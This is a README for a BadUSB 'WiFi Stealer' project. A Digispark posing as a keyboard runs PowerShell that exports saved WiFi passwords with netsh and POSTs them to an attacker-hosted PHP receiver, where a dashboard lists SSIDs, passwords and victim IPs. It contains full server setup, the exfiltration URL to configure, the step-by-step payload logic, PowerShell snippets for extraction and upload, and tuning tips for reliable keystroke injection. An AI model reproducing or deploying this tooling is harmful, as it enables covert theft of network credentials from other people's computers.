


# WiFi Stealer Dashboard

A BadUSB payload that grabs WiFi credentials from Windows machines and displays them on a web dashboard.



## What it does

- Attiny85/Digispark acts as a keyboard when plugged into Windows.
- Runs PowerShell to extract saved WiFi passwords.
- Sends everything to a PHP server on Kali or Windows.
- Shows the captured data in a simple dashboard.

---

## Setting Up the Server

You can host the dashboard on either Kali or Windows. Pick whichever you’re more comfortable with.

### On Kali Linux

```bash
# Clone the repo
cd ~
git clone https://github.com/Zypher17/wifi-stealer.git
cd wifi-stealer

# Install web server packages
sudo apt update
sudo apt install apache2 php

# Start Apache
sudo systemctl enable apache2
sudo systemctl start apache2

# Check your IP address
ip addr show | grep "inet " | grep -v 127.0.0.1

# Copy files to the web root
sudo cp index.php /var/www/html/
sudo cp wifi-recv.php /var/www/html/

# Create the log file and set permissions
sudo touch /var/www/html/wifi_creds.log
sudo chown www-data:www-data /var/www/html/{index.php,wifi-recv.php,wifi_creds.log}
sudo chmod 664 /var/www/html/wifi_creds.log
```

Make sure it works:

```bash
curl -X POST http://localhost/wifi-recv.php -d "data=test"
cat /var/www/html/wifi_creds.log
```

If you see `data=test` in the output, the server is working.[page:0]

Open:

```text
http://YOUR_IP/index.php
```

Replace `YOUR_IP` with the IP address of your Kali machine.

---

### On Windows (XAMPP)

1. Download XAMPP from [apachefriends.org](https://www.apachefriends.org).
2. Install it with Apache and PHP selected.
3. Start Apache from the XAMPP control panel.

4. Get the project files:

```powershell
git clone https://github.com/Zypher17/wifi-stealer.git
# Or download the ZIP from GitHub if you don’t have git
```

5. Copy the PHP files to the web folder:

```powershell
Copy-Item index.php C:\xampp\htdocs\
Copy-Item wifi-recv.php C:\xampp\htdocs\
```

6. Create the log file:

```powershell
New-Item C:\xampp\htdocs\wifi_creds.log -ItemType File
icacls C:\xampp\htdocs\wifi_creds.log /grant Users:F
```

7. Find your IP:

```powershell
ipconfig
```

Look for the IPv4 address on your active adapter.

Test it:

```powershell
Invoke-WebRequest -Uri 'http://localhost/wifi-recv.php' -Method POST -Body "data=test"
Get-Content C:\xampp\htdocs\wifi_creds.log
```

Open:

```text
http://localhost/index.php
```

---

## Programming the Digispark



### Getting Arduino IDE ready

1. Open Arduino IDE.
2. Go to `File → Preferences`.
3. Add this to **Additional Boards Manager URLs**:

```text
http://digistump.com/package_digistump_index.json
```

4. Go to `Tools → Board → Boards Manager`.
5. Search for `Digistump AVR` and install it.
6. Select `Digispark (Default - 16.5MHz)`.

### Uploading the payload

1. Open the Digispark payload sketch:

```text
payloads/wifi_stealer_digispark.ino
```

2. In the sketch, find the line that defines the receiver URL and change the IP address:

```cpp
$u='http://YOUR_IP/wifi-recv.php';
```

Replace `YOUR_IP` with the IP of your Kali or Windows server (for example `http://192.168.1.8/wifi-recv.php` if you are on the same LAN).

3. Make sure the payload contains the Wi‑Fi extraction and POST logic that sends **raw CSV** to `wifi-recv.php`, in this format:

- Export Wi‑Fi profiles to `%TEMP%` using `netsh wlan export profile`.
- Parse each `Wi-Fi-*.xml` file to build objects with properties: `Time, SSID, Pass, IP, OS`.
- Export these objects as CSV to something like `%TEMP%\w.csv`.
- Use `Invoke-WebRequest` to POST the contents of that CSV as the body to `http://YOUR_IP/wifi-recv.php`.
- Delete the XML and CSV files and exit PowerShell when done.

4. Click **Upload** in Arduino IDE.
5. When Arduino IDE says `Plug in device now...`, plug in the Digispark.
6. Wait for the upload to finish.

After flashing, plugging the Digispark into a Windows machine will:

- Open PowerShell.
- Read saved WiFi profiles and extract the passwords.
- Send the captured data to your PHP receiver as CSV.
- Clean up the temp files it created.
- Blink the onboard LED to signal it’s done.

---

## Viewing the Results

All captured data is saved in:

```text
wifi_creds.log
```

The dashboard is available at:

```text
http://YOUR_IP/index.php
```

The dashboard shows:

- Total number of captures.
- SSIDs and passwords.
- Victim IP address.
- OS information.
- A delete option for entries.

---

## Removing the Project

If you want to remove everything, delete the files you copied earlier.

### On Kali Linux

```bash
sudo rm -f /var/www/html/index.php
sudo rm -f /var/www/html/wifi-recv.php
sudo rm -f /var/www/html/wifi_creds.log
```

If you want to remove the whole repository too:

```bash
rm -rf ~/wifi-stealer
```

### On Windows (XAMPP)

Delete these files from `C:\xampp\htdocs\`:

```text
index.php
wifi-recv.php
wifi_creds.log
```

If you cloned the repo, you can also delete the project folder you downloaded.

---

## Troubleshooting

### Dashboard loads, but no data appears

Most of the time the server is fine and the issue is on the Windows / payload side.

**1. Check the receiver and log file**

- Test the PHP receiver from the server itself:

  ```bash
  curl -X POST http://localhost/wifi-recv.php -d "data=test"
  cat /var/www/html/wifi_creds.log
  ```

  If you see `data=test` in the log, the PHP script and permissions are OK.[page:0]

- If nothing is written:
  - Make sure Apache is running:  
    `sudo systemctl status apache2`
  - Check the log file exists and is writable:  
    `ls -l /var/www/html/wifi_creds.log` and fix ownership/permissions as in the setup section.[page:0]

---

### PowerShell error: “Unable to connect to the remote server”

This means Windows can’t reach your server at the URL you used in `Invoke-WebRequest`, not that the PowerShell logic is broken.[page:0]

On the Windows machine, in PowerShell:

```powershell
# 1) Can we reach the server IP?
ping YOUR_IP

# 2) Is the HTTP port open?
Test-NetConnection YOUR_IP -Port 80
# or, if you really configured Apache on a custom port:
Test-NetConnection YOUR_IP -Port 8080
```

- If `ping` fails or `TcpTestSucceeded : False`, either:
  - Windows and the server are not on the same network, or
  - A firewall is blocking the connection.[page:0]

Also double‑check the URL:

- Default Apache from this README uses:  
  `http://YOUR_IP/wifi-recv.php`
- Only use `:8080` if you configured Apache to listen on 8080 and tested it in a browser first.

If manual tests work, make sure the **same URL** is used in your Digispark sketch wherever you define `$u`.

Reflash the Digispark after any IP/URL change.

---

### PowerShell error: “You cannot call a method on a null-valued expression”

This usually comes from the WiFi profile parsing line when a regex or split doesn’t match some `netsh` output lines, so you end up calling a property or method on `$null`.[page:0]

Use the safer approach the project is based on:

```powershell
$profiles = (netsh wlan show profiles) |
  Select-String "All User Profile" |
  ForEach-Object {
    $_.Line.Split(':').Trim()
  }
```

This just finds lines containing `All User Profile`, splits on `:`, and trims the right side (the SSID).

If you ever hit the null‑valued expression error, run the WiFi extraction commands step‑by‑step in a PowerShell window on your test machine, fix them there, then mirror the **exact** working commands back into the Digispark sketch.

---

### CSV looks good on Windows, but dashboard is still empty

If `type` (or `Get-Content`) of your CSV on Windows shows valid data, but nothing appears in the dashboard:

- Manually POST the CSV from PowerShell:

  ```powershell
  $b = Get-Content $csvPath -Raw
  Invoke-WebRequest -UseBasicParsing -Uri 'http://YOUR_IP/wifi-recv.php' -Method POST -Body $b
  ```

- On the server, watch the log in real time:

  ```bash
  sudo tail -f /var/www/html/wifi_creds.log
  ```

If this manual POST writes to the log, the PHP side is fine. Then the issue is:

- Wrong IP/URL hard‑coded in the Digispark sketch, or
- HID keystrokes being dropped because the Digispark is typing too fast.[page:0]

**Keystroke / timing tips:**

- Add longer delays after heavy commands:
  - 1500–4000 ms after the `netsh`/WiFi loop and `Export-Csv`
  - 1500–2000 ms after `Invoke-WebRequest`
- Avoid one huge PowerShell line if your Digispark becomes unreliable. Splitting the command into multiple logical lines, each sent by `DigiKeyboard.print(...)` + ENTER with a small delay, is more stable.

---

### Digispark upload fails or acts weird

- Plug the Digispark in **only after** you click **Upload** in Arduino IDE.
- Try a different USB port or a short USB extension cable.
- Confirm `Digispark (Default – 16.5 MHz)` is selected under **Tools → Board**.
- Common compile issues:
  - Make sure there is only one `.ino` in the sketch folder.
  - Ensure `#include "DigiKeyboard.h"` is at the top of the file.

---

## Notes

Ideas to improve it:

- Better logging and timestamps.
- CSV export / import features.
- Duplicate SSID filtering and history view.
- Authentication and HTTPS for the dashboard.
